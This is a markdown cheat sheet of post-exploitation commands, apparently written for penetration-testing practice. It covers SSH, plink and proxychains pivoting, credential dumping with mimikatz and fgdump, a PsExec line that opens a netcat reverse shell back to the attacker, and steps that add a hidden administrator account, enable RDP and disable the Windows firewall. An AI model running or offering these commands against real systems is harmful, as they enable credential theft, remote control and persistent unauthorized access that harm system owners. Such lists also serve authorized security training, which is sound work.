 # Post Exploitation
## Lateral movement
### Local Port forwarding
#### Port forwarding rinetd
```
apt install rinetd
cat /etc/rinetd.conf
```

#### SSH local port forward
```
ssh -N -L <LOCAL PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<TARGET IP>
```

#### SSH port forwarding over hop
```
ssh -N -L <BIND_ADRESS>:<PORT>:<TARGET IP>:<TARGET PORT> <USERNAME>@<HOP IP>
```
### Remote port forwarding
#### SSH forward local port of target back to our kali
```
ssh -N -R <BIND_ADRESS>:<PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<IP>
```

### Dynamic port forwarding
```
sudo ssh -N -D 127.0.0.1:9000 <username>@<IP>
vim  /etc/proxychains.conf
socks4		127.0.0.1 9000 #Change this value
#prepend proxychains command before every command to send through the proxychain.
```

#### Port forwarding plink.exe
```
plink.exe <user>@<kali> -R <kaliport>:<target-IP>:<target-port>
```

### Proxychains
### Proxychains over hop
```
ssh -J <USER>@<FIRST HOP IP> -D 127.0.0.1:9000 <USER>@<SECOND MACHINE>
```

## Dumping credentials
#### Mimikatz.exe
Bring over mimikatz.exe using an SMB server.
```
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full"
```

#### Fgdump.exe
```
fgdump.exe
type .....pwdump
```

## Misc
#### PSExec
Shell back to my machine with other user using netcat 
```
PsExec.exe -u <COMPUTERNAME>\<USERNAME> -p <PASSWORD> \\<COMPUTERNAME> nc.exe <IP> <PORT> -e cmd.exe
```

#### Enable RDP and create user to login
```
#Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

#Enable more then 1 user login
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f

#Add user to RDP group
net user <USER> <PASS> /add /Y
net localgroup administrators <USER> /add
net localgroup "Remote Desktop Users" <USER> /add

#Disable firewall
netsh advfirewall set allprofiles state off

#RDP to machine
xfreerdp /u:<USER> /p:<PASS> /v:<TARGET>
```
